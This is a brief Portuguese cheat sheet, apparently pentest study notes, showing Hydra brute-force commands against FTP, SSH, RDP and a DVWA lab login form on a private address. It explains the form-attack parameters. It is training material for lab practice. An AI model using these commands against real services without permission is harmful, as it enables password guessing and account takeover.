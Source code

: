 # HYDRA

Ferramenta de brute force online.

Uso do hydra com usuário:

```bash
hydra -v -l user -P wordlist.txt 192.168.0.100 ftp
```

```bash
hydra -v -l root -P wordlist.txt 192.168.0.100 ssh
```

```bash
hydra -v -l administrator -P wordlist.txt 192.168.0.100 rdp
```

**No RDP pode não funcionar como esperado.**

Uso do hydra com wordlist de usuário:

```bash
hydra -v -L users.txt -P wordlist.txt 192.168.0.100 21
```

## Brute force HTTP

URL: <http://192.168.0.100/dvwa/vulnerabilities/brute/?username=teste&password=teste&Login=Login#>

```bash
hydra -v -l admin -P pass.txt 192.168.0.100 http-get-form "/dvwa/vulnerabilities/brute/:username=^USER^&password=^PASS^&Login=Login:Username and/or password incorrect.:H=Cookie: PHPSESSID=4h91dkp7pcp8184nil8rt9ok13; security=low"
```

**^USER^** ==> Será onde o usuário será inserido.  
**^PASS^** ==> Será a senha.  
**Username and/or password incorrect.** ==> É o parâmetro de senha incorreta que muda conforme aplicação.  
**H** ==> Configuração do Header.
